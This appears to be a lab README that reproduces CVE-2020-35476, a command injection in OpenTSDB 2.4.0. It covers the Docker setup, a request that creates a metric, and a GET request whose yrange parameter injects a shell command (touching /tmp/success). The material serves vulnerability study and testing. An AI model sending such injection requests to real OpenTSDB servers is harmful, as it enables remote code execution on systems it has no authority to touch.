



# OpenTSDB arbitrary commands injection (CVE-2020-35476)

[中文版本(Chinese version)](README.zh-cn.md)

OpenTSDB is a distributed, scalable Time Series Database (TSDB) written on top of HBase.

A remote code execution vulnerability occurs in OpenTSDB through 2.4.0 via command injection in the yrange parameter. The yrange value is written to a gnuplot file in the /tmp directory. This file is then executed via the mygnuplot.sh shell script. (tsd/GraphHandler.java attempted to prevent command injections by blocking backticks but this is insufficient.)

References:

- https://github.com/OpenTSDB/opentsdb/issues/2051
- https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html

## Vulnerable Environment

Execute the following command to start a OpenTSDB server 2.4.0:

```
docker-compose up -d
```

Once the service is started, visit `http://your-ip:4242` to see the web interface of the OpenTSDB.

## Exploit

You need to know the name of a metric before you can exploit this vulnerability on `http://your-ip:4242/api/suggest?type=metrics&q=&max=10`:



However, the metrics list is empty.

Fortunately, the `tsd.core.auto_create_metrics` is set to `true` in this vulnerable OpenTSDB, so you can create a metric named `sys.cpu.nice` through following request:

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

If at least one metric exists and is not empty, the above request is not required.

Send following request, where the value of the parameter `m` must contain a valid metric name:

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/success%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close


```



`touch /tmp/success` has been successfully executed.


